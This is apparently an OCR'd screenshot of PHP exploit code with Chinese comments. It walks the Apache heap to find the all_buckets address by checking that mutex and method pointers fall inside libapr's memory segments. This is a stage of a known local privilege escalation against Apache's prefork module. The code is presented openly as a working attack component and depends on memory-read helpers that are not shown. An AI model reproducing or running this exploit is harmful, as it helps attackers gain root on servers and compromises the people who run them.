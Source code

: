 ```
{
	$heap_region = get_mem_region("heap");//在我的环境中，all_bucket位于第一个heap中
	$libapr_region = get_mem_region("libapr-");
	if(!count($heap_region) || !count($libapr_region))
		return 0;
	$heap_start_addr = $heap_region[0][0];
	$heap_end_addr = $heap_region[0][1];

	echo "heap start addr:0x".dechex($heap_start_addr)."\n";
	echo "heap end addr:0x".dechex($heap_end_addr)."\n";

	$libapr_text_start_addr = 0;
	$libapr_data_start_addr = 0;
	$libapr_text_end_addr = 0;
	$libapr_data_end_addr = 0;
	for($i = 0;$i<count($libapr_region);$i++){
		if($libapr_region[$i][2] === "r-xp"){//代码段
			$libapr_text_start_addr = $libapr_region[$i][0];
			$libapr_text_end_addr = $libapr_region[$i][1];
			continue;
		}

		if($libapr_region[$i][2] === "r--p"){//const data
			$libapr_data_start_addr = $libapr_region[$i][0];
			$libapr_data_end_addr = $libapr_region[$i][1];
			continue;
		}
	}

	echo "libapr text start addr:0x".dechex($libapr_text_start_addr)."\n";
	echo "libapr text end addr:0x".dechex($libapr_text_end_addr)."\n";
	
	echo "libapr data start addr:0x".dechex($libapr_data_start_addr)."\n";
	echo "libapr data end addr:0x".dechex($libapr_data_end_addr)."\n";
	
	$result = array();
	$result_index = 0;
	for($i = 0;$i<$heap_end_addr - $heap_start_addr;$i+=8){//遍历heap
		$mutex_addr = read_mem_qword($heap_start_addr + $i);//prefork_child_bucket中的mutex
		if( $heap_start_addr <$mutex_addr && $mutex_addr<$heap_end_addr ){
			
			$meth_addr = read_mem_qword($mutex_addr + 8);//apr_proc_mutex_t中的meth
			
			if( $libapr_data_start_addr < $meth_addr && $meth_addr < $libapr_data_end_addr){

				$function_point = read_mem_qword($meth_addr+8);
				if($libapr_text_start_addr < $function_point && $function_point < $libapr_text_end_addr){
					$result[$result_index++] = $heap_start_addr + $i - 8 -8;
				}
			}
		}
	}
	
	//在我的环境中，有多个地址满足是all_buckets 地址的要求，但是只有第3个才是正确的
	if( count($result)!= 4 ){
		return 0;
	}
	else{
		return $result[2];
	}
}

```